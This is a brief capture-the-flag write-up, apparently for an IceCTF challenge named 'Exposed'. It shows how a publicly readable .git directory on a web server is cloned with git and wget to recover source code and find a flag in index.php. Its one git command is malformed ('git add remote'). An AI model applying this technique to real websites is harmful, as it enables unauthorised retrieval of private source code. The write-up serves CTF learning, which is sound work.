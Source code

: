 # Exposed

In this example, we realized there was a flaw with the apache configuration, since we were able to clone the source files from the git repository.

To get any repository from the website
```bash
  mkdir exposed
  git init
  git add remote origin http://exposed.vuln.icec.tf/.git
  git pull origin _hash_
```

The hash list was in log file:

```bash
  wget http://exposed.vuln.icec.tf/.git/logs/heads/master
```

We only needed to pull every hash listed.

(note: the file is not the same as the cloned one).
flag was located in index.php file.
